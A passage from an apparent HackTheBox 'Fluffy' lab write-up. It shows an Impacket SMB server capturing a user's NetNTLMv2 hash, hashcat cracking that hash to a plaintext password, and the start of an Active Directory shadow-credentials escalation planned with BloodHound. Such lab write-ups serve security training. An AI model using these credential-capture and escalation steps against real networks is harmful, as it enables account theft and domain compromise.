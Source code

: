 ```shell
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[+] Impacket Library Installation Path: /home/deb/Desktop/python-env/lib/python3.11/site-packages/impacket
[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.11.69,61756)
[*] AUTHENTICATE_MESSAGE (FLUFFY\p.agila,DC01)
[*] User DC01\p.agila authenticated successfully
[*] p.agila::FLUFFY:aaaaaaaaaaaaaaaa:9ba391d277ce91b3ce84bc5139a1e683:0101000000000000004bfece1bf3db0147f66eded84ea6540000000001001000730046004c007500660050005a00790003001000730046004c007500660050005a007900020010007300660045004d006300770043004700040010007300660045004d00630077004300470007000800004bfece1bf3db0106000400020000000800300030000000000000000100000000200000a74e13b83fc4f35b79963268e4726788a28cdbac27591a19b938320edcf4cc910a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310036002e003100300030000000000000000000
[*] Closing down connection (10.10.11.69,61756)
[*] Remaining connections []
```
after a short time, the user `p.agila` authenticated to our smb server and we got the hash as we can see above, and the 
password is successfully retrieved by cracking the hash with `hashcat`
```shell
deb@debian:~/Desktop/htb/Fluffy/data/tmp$ hashcat -m 5600 agila.txt ~/Desktop/htb/tools/lists/rockyou.txt 
hashcat (v6.2.6) starting
<skip>
P.AGILA::FLUFFY:aaaaaaaaaaaaaaaa:<skip>:prometheusx-303

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Hash.Target......: P.AGILA::FLUFFY:aaaaaaaaaaaaaaaa:9ba391d277ce91b3ce...000000
Time.Started.....: Sat Jul 12 13:09:54 2025 (7 secs)
Time.Estimated...: Sat Jul 12 13:10:01 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/home/deb/Desktop/htb/tools/lists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   719.1 kH/s (0.55ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4517376/14344384 (31.49%)
Rejected.........: 0/4517376 (0.00%)
Restore.Point....: 4516864/14344384 (31.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: promo150% -> prom0606
Hardware.Mon.#1..: Util: 90%
```
## CA_SVC - Shadow Credentials
analysing active directory data in bloodhound, we can observe the following
![Desktop View](path.png){: width="1431" height="774" }
`p.agila` is a member of the `service account managers` and this group has `FullControle` over the `service accounts` 
group. this will enable `p.agila` to add her self to `service accounts` and abuse the `FullControle` that this group
has to setup shadow credentials for `ca_svc` and take over the account
using `bloodyAD` we will add `p.agila` to `service accounts` group
```shell
```